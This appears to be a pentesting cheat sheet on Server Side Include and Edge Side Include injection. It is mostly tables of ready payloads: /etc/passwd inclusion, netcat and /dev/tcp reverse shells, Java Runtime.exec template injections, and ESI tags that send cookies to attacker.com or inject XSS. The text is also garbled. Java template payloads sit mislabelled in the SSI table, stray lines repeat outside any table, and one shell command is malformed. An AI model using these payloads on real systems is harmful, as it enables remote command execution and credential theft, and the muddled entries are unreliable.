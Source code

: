 # Server Side Include Injection

> Server Side Includes (SSI) are directives that are placed in HTML pages and evaluated on the server while the pages are being served. They let you add dynamically generated content to an existing HTML page, without having to serve the entire page via a CGI program, or other dynamic technology.

## Summary

* [Methodology](#methodology)
* [Edge Side Inclusion](#edge-side-inclusion)
* [References](#references)

## Methodology

SSI Injection occurs when an attacker can input Server Side Include directives into a web application. SSIs are directives that can include files, execute commands, or print environment variables/attributes. If user input is not properly sanitized within an SSI context, this input can be used to manipulate server-side behavior and access sensitive information or execute commands.

SSI format: `<!--#directive param="value" -->`

| Description             | Payload                                  |
| ----------------------- | ---------------------------------------- |
| Print the date          | `<!--#echo var="DATE_LOCAL" -->`         |
| Print the document name | `<!--#echo var="DOCUMENT_NAME" -->`      |
| Print all the variables | `<!--#printenv -->`                      |
| Setting variables       | `<!--#set var="name" value="Rich" -->`   |
| Include a file          | `<!--#include file="/etc/passwd" -->`    |
| Include a file          | `<p th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('bash -c $@|bash 0 echo bash -i >& /dev/tcp/ip/port/ip/ 0>&1')}">Hello!</p>` |
| Execute commands        | `<p th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('')}">vcs</p>`                 |
| Reverse shell           | `<!--#exec cmd="mkfifo /tmp/f;nc IP PORT 0</tmp/f\|/bin/bash 1>/tmp/f;rm /tmp/f" -->` |

## Edge Side Inclusion

HTTP surrogates cannot differentiate between genuine ESI tags from the upstream server and malicious ones embedded in the HTTP response. This means that if an attacker manages to inject ESI tags into the HTTP response, the surrogate will process and evaluate them without question, assuming they are legitimate tags originating from the upstream server.

Some surrogates will require ESI handling to be signaled in the Surrogate-Control HTTP header.

```ps1
Surrogate-Control: content="ESI/1.0"
```

| Description             | Payload                                  |
| ----------------------- | ---------------------------------------- |
| Blind detection         | `<esi:include src=http://attacker.com>`  |
| XSS                     | `<esi:include src=http://attacker.com/XSSPAYLOAD.html>` |
| Cookie stealer          | `<esi:include src=http://attacker.com/?cookie_stealer.php?=$(HTTP_COOKIE)>` |
| Include a file          | `<esi:include src="supersecret.txt">` |
| Display debug info      | `<esi:debug/>` |
| Add header              | `<!--esi $add_header('Location','http://attacker.com') -->` |
| Inline fragment         | `<esi:inline name="/attack.html" fetchable="yes"><script>prompt('XSS')</script></esi:inline>` |

<p th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('')}">vcs</p>

th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('bash -c $@|bash
0 echo bash -i >& /dev/tcp/ip/port/ip/ 0>&1')}">Hello!

| Software | Includes | Vars | Cookies | Upstream Headers Required | Host Whitelist |
| -------- | -------- | ---- | ------- | ------------------------- | -------------- |
| Squid3   | Yes      | Yes  | Yes     | Yes                       | No             |
| Varnish Cache | Yes | No   | No      | Yes                       | Yes            |
| Fastly   | Yes      | No   | No      | No                        | Yes            |
| Akamai ESI Test Server (ETS) | Yes | Yes | Yes | No              | No             |
| NodeJS' esi | Yes   | Yes  | Yes     | No                        | No             |
| NodeJS' nodesi | Yes | No  | No      | No                        | Optional       |

## References

* [Beyond XSS: Edge Side Include Injection - Louis Dion-Marcil - April 3, 2018](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/)
* [DEF CON 26 - Edge Side Include Injection Abusing Caching Servers into SSRF - ldionmarcil - October 23, 2018](https://www.youtube.com/watch?v=VUZGZnpSg8I)
* [ESI Injection Part 2: Abusing specific implementations - Philippe Arteau - May 2, 2019](https://gosecure.ai/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/)
* [Exploiting Server Side Include Injection - n00py - August 15, 2017](https://www.n00py.io/2017/08/exploiting-server-side-include-injection/)
* [Server Side Inclusion/Edge Side Inclusion Injection - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection)
* [Server-Side Includes (SSI) Injection - Weilin Zhong, Nsrav - December 4, 2019](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)
